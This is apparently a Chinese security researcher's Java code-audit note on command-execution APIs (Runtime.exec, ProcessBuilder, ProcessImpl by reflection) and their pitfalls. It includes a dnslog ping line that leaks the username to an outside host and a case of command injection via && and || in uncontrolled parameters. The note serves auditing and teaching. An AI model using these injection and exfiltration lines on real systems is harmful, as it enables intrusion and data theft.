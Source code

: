 
<a name="vCFc7"></a>
## Java命令执行的方法
其实可以说java的命令执行是基于ProcessImpl的。<br />Java中可用于执行系统命令的方式有API有:

> java.lang.Runtime.exec
> java.lang.ProcessBuilder
> java.lang.UNIXProcess/ProcessImpl
> javax.script.ScriptEngineManager



<a name="6kBmD"></a>
## 审计的关键词

- 审计方法：可以搜索以下关键词： 

**getRuntime、exec、cmd、shell、Process**

<a name="0o1lr"></a>
## 命令执行函数实例
<a name="AP2zL"></a>
### runtime.exec()
Process process = Runtime.getRuntime().exec("cmd /c dir");<br />     InputStream in = process.getInputStream();<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1612587636585-9a93c66f-1239-45da-b4b4-86d44da06e16.png#align=left&display=inline&height=276&originHeight=368&originWidth=689&size=19286&status=done&style=none&width=517)
<a name="HFxMV"></a>
### ProcessBuilder()
不像exec一样直接启动，需要用start方法进行启动

        ProcessBuilder processBuilder = new ProcessBuilder("cmd.exe", "/c", "ipconfig");<br />        Process start = processBuilder.start();<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1612587675597-e74095f3-a66b-4fae-ade8-85f20822468f.png#align=left&display=inline&height=375&originHeight=500&originWidth=861&size=26023&status=done&style=none&width=646)<br />我在调试的时候发现ProcessBuilder函数在使用start方法的时候会调用到ProcessImpl函数<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1612588379788-6e23b3fd-a59e-46e8-8474-cd25096259a7.png#align=left&display=inline&height=203&originHeight=406&originWidth=1420&size=38221&status=done&style=none&width=710)<br />然后在exec()中调试也发现会调用到ProcessImpl<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1612589601772-c7777423-8c97-4981-a340-fcf0885690c7.png#align=left&display=inline&height=213&originHeight=426&originWidth=1401&size=33815&status=done&style=none&width=700.5)
<a name="hiqt8"></a>
### ProcessImpl()
ProcessBuilder、exec函数运行命令执行的时候都会调用到processimpl函数<br />跟入这个ProcessImpl函数，发现这个函数是私有类<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1612598173116-7abd6e96-7f00-4fd0-acbf-eb447f1c310e.png#align=left&display=inline&height=135&originHeight=135&originWidth=514&size=6031&status=done&style=none&width=514)<br />查看start方法<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1612598342095-76152fc2-c643-450f-a286-26b0461934a2.png#align=left&display=inline&height=151&originHeight=151&originWidth=613&size=6512&status=done&style=none&width=613)

```java
    public static void main(String[] args) throws Exception {
        Class clazz = Class.forName("java.lang.ProcessImpl");
        Method start = clazz.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
        start.setAccessible(true);
        start.invoke(null, new String[]{"CALC"}, null, null, null, false);
    }
}
```

<a name="Kwm0X"></a>
## 命令执行的一些坑
例如如下一段实例代码<br />`Runtime.getRuntime().exec("calc");`<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1612538374524-a3ae7b3f-c5b4-45a0-88ab-a18ada9c7c4c.png#align=left&display=inline&height=350&originHeight=699&originWidth=787&size=124259&status=done&style=none&width=394)<br />但是这样子是不可以从console中看到回显的，没有回显即使程序出错了，也无法判断。<br />需要使用抽象类Process 
> process类提供获取**子进程的输入流、子进程的输出流、子进程的错误流、等待进程完成、检查进程的推出状态以及销毁进程的方法**；在这里需要提及的是创建的子进程没有自己的控制台或终端，其所有的io操作都是通过（输入流、输出流、错误流）重定向到父进程中。

java中的**inputstream**是一个面向字节的流抽象类，专门用来读取文件流的对象<br />**getInputStream()**用于获取流程和子流程的输入流<br />下面的程序相当于流之间的转化并输出。<br />
```java
public class testjsp {
	public static void main(String[] args) throws IOException {

		Process process = Runtime.getRuntime().exec("calc");
	    InputStream in = process.getInputStream();
	    int a = 0;
	    byte[] b = new byte[1024];

	    while ((a = in.read(b)) != -1) {
	        System.out.println(new String(b, 0, a));
	    }

	    in.close();
    }
}
```
但是exec直接执行一些其他的命令，比如带有%会出现问题，如下所示

![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1612541973140-78dde2c2-a070-439a-a8d5-00a99049aebf.png#align=left&display=inline&height=326&originHeight=651&originWidth=1182&size=59995&status=done&style=none&width=591)<br />当时以为用 [http://www.jackson-t.ca/runtime-exec-payloads.html ](http://www.jackson-t.ca/runtime-exec-payloads.html)中进行编码，但是发现还是不行<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1612542056197-baa55280-68d0-4bad-b1b6-a6f585754c3d.png#align=left&display=inline&height=281&originHeight=561&originWidth=1134&size=33308&status=done&style=none&width=567)<br />**解决办法1：**

需要把执行长串的命令定义为数组的形式传参就可以执行<br />exec(new String[]{"cmd", "/c", "ping %username%.3pqsrm.dnslog.cn"});<br />↓ 等同于

String [] cmd={"cmd","/C","ping %username%.3pqsrm.dnslog.cn"}; <br />Process process =Runtime.getRuntime().exec(cmd);



![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1612543774513-1d342a94-6bc9-468b-9120-f1a909598864.png#align=left&display=inline&height=358&originHeight=716&originWidth=895&size=43190&status=done&style=none&width=448)<br />**解决办法2：**<br />因为本机是windows，所以直接带入cmd /c

![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1612579927889-03af3e66-d9b5-4e96-b179-bd577b13d551.png#align=left&display=inline&height=363&originHeight=726&originWidth=947&size=40999&status=done&style=none&width=473.5)
<a name="3W5IK"></a>
## linux和windows命令执行的调用

- Windows下调用系统命令

String [] cmd={"cmd","/C","whoami"}; <br />Process proc =Runtime.getRuntime().exec(cmd);

- Linux下调用系统命令就要改成下面的格式

String [] cmd={"/bin/sh","-c","whoami"}; <br />Process proc =Runtime.getRuntime().exec(cmd);


<a name="VlOsy"></a>
## 实战案例
在某次java审计的业务中，发现如下命令语句，pdfName参数、swfName参数可控并没有任何其他防护，只要使用相关的符号就可以绕过

![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1612439661062-ec6e01a2-633d-43fd-aa00-b934da931b39.png#align=left&display=inline&height=64&originHeight=85&originWidth=1054&size=4477&status=done&style=none&width=791)

例如nmap工具，只要加上&&(表示与)“||”表示或 等运算符就可以命令执行了<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1612439874132-657e176e-e4bf-4458-b739-1637e7a92177.png#align=left&display=inline&height=130&originHeight=260&originWidth=1059&size=143270&status=done&style=none&width=529.5)




好文章:

[https://github.com/byt3bl33d3r/OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim)<br />[https://blog.csdn.net/Auuuuuuuu/article/details/109476854?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-3.control&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-3.control](https://blog.csdn.net/Auuuuuuuu/article/details/109476854?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-3.control&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-3.control)<br />[https://blog.csdn.net/qsort_/article/details/104821283](https://blog.csdn.net/qsort_/article/details/104821283)
